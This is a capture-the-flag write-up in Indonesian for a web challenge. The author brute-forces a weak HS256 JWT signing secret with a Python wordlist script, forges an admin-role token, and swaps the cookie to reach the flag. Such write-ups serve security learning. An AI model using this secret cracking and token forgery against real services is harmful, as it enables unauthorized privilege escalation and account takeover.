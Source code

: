 ## TokoRoti

**Difficulty:** Easy-Medium

**Author:** maul

**URL:** [http://ctf.noctralupra.space:10305](http://ctf.noctralupra.space:10305)

### Description

NoctraLupra bikin usaha toko roti wkwkwk

### Solution

![alt text](image.png)

Saya mulai dengan membuka URL yang diberikan dan melakukan pendaftaran akun baru (register) lalu login seperti biasa. Setelah berhasil login, web menampilkan panel admin yang terkunci pada dashboard. Dugaan awal panel admin bisa diakses dengan mengubah cookie payload yang dibuat melalui jwt. 

![alt text](image-1.png)

Dari sini saya menaruh token tersebut ke jwt.io untuk menganalisis header dan payload: header menunjukkan penggunaan algoritma HMAC-SHA256 (`HS256`) dan payload berisi `peran` yang bernilai `karyawan`.

```python
import jwt
import sys
from tqdm import tqdm

def load_wordlist(path):
    with open(path, 'r', encoding='latin-1') as f:
        return [line.strip() for line in f.readlines()]

def jwt_bruteforce(token, wordlist_path, algorithm='HS256'):
    wordlist = load_wordlist(wordlist_path)
    header = jwt.get_unverified_header(token)

    print(f"[i] JWT Algorithm: {header.get('alg', algorithm)}")
    print(f"[i] Total passwords to try: {len(wordlist)}")

    for secret in tqdm(wordlist, desc="Bruteforcing"):
        try:
            payload = jwt.decode(token, secret, algorithms=[algorithm])
            print("\n[+] Secret key found:", secret)
            print("[+] Decoded payload:", payload)
            return secret
        except jwt.InvalidSignatureError:
            continue
        except jwt.DecodeError:
            continue
        except Exception as e:
            print("\n[!] Unexpected error:", e)
            break

    print("\n[-] Secret key not found.")
    return None

if __name__ == '__main__':
    if len(sys.argv) != 3:
        print(f"Usage: python {sys.argv[0]} <jwt_token> <path_to_wordlist.txt>")
        sys.exit(1)

    jwt_token = sys.argv[1]
    wordlist_path = sys.argv[2]
    jwt_bruteforce(jwt_token, wordlist_path)
```

Langkah berikutnya, saya mencoba mencari tahu apakah server menandatangani JWT dengan secret yang dapat ditebak. Untuk itu saya menjalankan script bruteforce JWT menggunakan wordlist `rockyou.txt`. Script tersebut memeriksa setiap kata di wordlist dengan mencoba melakukan `jwt.decode(token, secret, algorithms=[algorithm])`; ketika decode berhasil berarti secret yang benar ditemukan.

![alt text](image-2.png)

Dengan begitu, proses bruteforce berhasil menemukan secret JWT: `birahi`. Penemuan ini mengindikasikan server hanya memverifikasi signature HMAC menggunakan kunci yang dapat ditebak dari dictionary — sebuah kelemahan umum jika kunci tidak acak/kuat.

![alt text](image-3.png)

Dari sini saya membuat token baru yang mengubah klaim `peran` dari `karyawan` menjadi `admin` dan men-sign kembali menggunakan secret `birahi` menggunakan jwt.io. 

![alt text](image-4.png)

Langkah berikutnya saya mengganti token yang dipakai pada web. Token disimpan sebagai cookie di field token_akses, lalu ganti nilai cookienya dengan token baru dan mengakses panel admin. 

![alt text](image-5.png)

Dari akses panel admin, server merespons dengan halaman khusus admin yang berisi flag.

### Flag

NCLPS1{l3mah_4m4t_jwtnya_hahaha}
